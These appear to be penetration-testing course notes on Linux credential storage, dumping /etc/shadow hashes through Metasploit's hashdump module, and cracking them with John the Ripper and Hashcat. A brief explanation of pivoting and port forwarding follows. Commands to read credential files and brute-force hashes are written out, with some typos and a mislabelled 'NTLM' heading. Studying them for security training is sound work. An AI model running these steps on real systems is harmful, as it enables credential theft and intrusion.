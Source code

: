 > All the information for all accounts on linux is stored in password file ⇒ /etc/passwd

> In linux all password encrypted and the all encrypted password stored in shadow file ⇒ /etc/shadow

> Shadow file ⇒ contain the password hashes and the hash algorithm id ( so we can determine the hash algorithm type by the id )

  

- _Dumping & Cracking NTLM Hashes_
    
    - `nmap -sS -sV -O <target ip>` ⇒ To scan open ports and see the running services on this ports
    - After exploit this services and get access of the target system .
    - `/bin/bash -i` && `cat /etc/passwd` ⇒ to open a bash & cat the password file
    - `cat /etc/shadow` ⇒ we can see the hashes of the users on the systems
    - `session -u 1` ⇒ to upgrade it to metepreter session
    - ==_copy the line value_== && `msfconsole`
    - `search hashdump` && `use post/linux/gather/hashdump` && `set session 2` && `run`
    
    > ==_so here the msfconsole will unshadow the hash and save it in new folder to use it on hash cracking_==
    
    > If we want to use wordlist ⇒ `gzip -d /use/share/wordlist/rockyou.txt.gz`
    
    - `john - -format=<hash type>sha512crypt <path of msfconsole file > - -wordlist=/usr/share/wordlists/rockyou.txt` ⇒ here john the ripper will crack the password
    
    > ==On Hashcat u can see the hash algorithm type id on bottom of help page==
    
    - `hashcat -a3 -m 1800(id of sha512 ) <path of msfconsole file > /usr/share/wordlists/rockyou.txt` ⇒ so here we use hashcat with ==-a3 ⇒ which is a type of attack we want (brute-force)== && ==-m <here we need to enter the id of hash we want to crack ( the sha512 hash id is 1800)>==
    
      
    

  

  

## ==_**Pivoting Lesson**_==

  

- ==_Pivoting_==

> Pivoting ⇒ ==is Post exploitation technique that involves utilizing a compromised host that is connected to multiple network to gain access to system within other network==

> In Other Words it’s technique to go from target host , to another host on same target network we can’t access it directly

> After gaining access to one host , we can use the compromised host to exploit other hosts on private internal network to which we could not access previously

> ==Port Forwarding== ⇒ is the process of redirecting traffic from a specific port on a target system to a specific port on our system

> In the context of pivoting , we can forward a remote port on a previously inaccessible host to a local port on kali linux , so that we can remotely interact/exploit the service running on the port .
